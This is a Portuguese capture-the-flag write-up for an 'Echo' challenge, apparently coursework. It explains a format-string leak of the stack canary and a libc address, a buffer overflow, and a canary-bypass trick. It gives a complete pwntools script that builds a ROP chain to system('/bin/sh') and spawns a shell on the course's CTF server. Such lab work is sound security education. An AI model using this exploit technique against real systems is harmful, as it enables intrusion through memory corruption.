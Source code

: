 # Echo

### Vulnerabilidade 

Primeiramente notou-se que através de string pedida como nome se podia descobrir informações importantes sobre o sistema, uma format string vulnerability.

Numa segunda instância percebeu-se que se podia provocar um buffer overflow. O array do nome, de tamanho 20 bytes, estava a ser lido como se tivesse 100 bytes. 
Essa é a nossa janela para fazer um exploit

### Exploit

Primeiro, convém criar uma função para nos ajudar no input para o servidor, uma vez que apenas podemos explorar o nome que enviámos é útil ter uma função para tal.

```python
def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans
```

Passando agora ao que importa.
Notou-se numa primeira instância que o programa tinha todas as proteções ativadas. Para facilitar a execução do nosso exploit procurou-se desativar a aslr localmente para tornar mais percéptivel algumas associações e também permitir confirmar a nossa linha de pensamento.


Uma vez que os buffers são colocados junto ao canário suspeitá-mos que o oitavo argumento da stack seria um canário ...
![imagem.png](./ECHO1.png)

Uma vez que não tinhamos a certeza absoluta se o oitavo argumento seria ou não o canário decidimos correr o programa duas vezes e verificar se o argumento mudava...

Tal é possível pelo facto de termos desligado o aslr.

![imagem.png](./imagem.png)
![imagem-1.png](./imagem-1.png)

Uma vez que entre o canário e o return address temos o caller's save e o caller's ebp pelo que o o return address estará no 11 argumento.

Argumento 8 e 11...

![imagem-2.png](./imagem-2.png)
![imagem-3.png](./imagem-3.png)

Sabendo que esse argumento pertence a uma intrução da __libc_start_main procurou-se descobrir o offset desta para a base da libc

![imagem-4.png](./imagem-4.png)

![imagem-5.png](./imagem-5.png)

Ao fazer o mesmo para o endereço de __libc_start_main + 245, desta vez dentro do gdb, apercebemo-nos que o offset entre as duas intruções é de - 71 (decimal).
Nota: A conta varia conforme a biblioteca que se têm
Tal é importante para que consigámos dar uso a uma biblioteca auxiliar.

O endereço base será então 0xf7debee5 - libc.symbols["__libc_start_main"] + 71

Assim sendo, até aqui temos que 
```python
from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
print(int(sms1.split(b'.')[0], 16))
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

``` 

Tendo acesso ao endereço base podemos agora altera o endereço de retorno da frame atual por uma função ao nosso agrado.
Neste caso chamaremos a função system() com o argumento da shell. 

Ou seja, escrevemos o endereço de retorno, deixámos 4 bytes (por causa do esp, slide 13 da semana 5) e depois colocámos o endereço do /bin/sh. 
Felizmente já existe uma biblioteca que nos trata disso.

```python
# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()
```

Notou-se ainda que o canário tem um byte nulo (ver que na imagem acima que o canário acaba(começa) com \0), o que parece ser um impedimento para a escrita.
Se somarmos um valor pequeno ao ultimo byte do canário conseguimos passá-lo por cima sem sermos detetados.
Isto acontece pois a deteção só é feita ao sair da função main.
Podemos assim, numa escrita subsequente, repor o canário para o estado original.

Assim sendo,
```python
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())
# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)
```

Agora para repôr o estado do canário.

```python
r = message(p, b"." * 19)
```

Agora basta correr o programa e sair dele, usando a opção q.

![imagem-6.png](./imagem-6.png)

```python

from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()

# Canário termina com /0 ?? No problemo
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())

# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)

r = message(p, b"." * 19)

p.interactive()




```






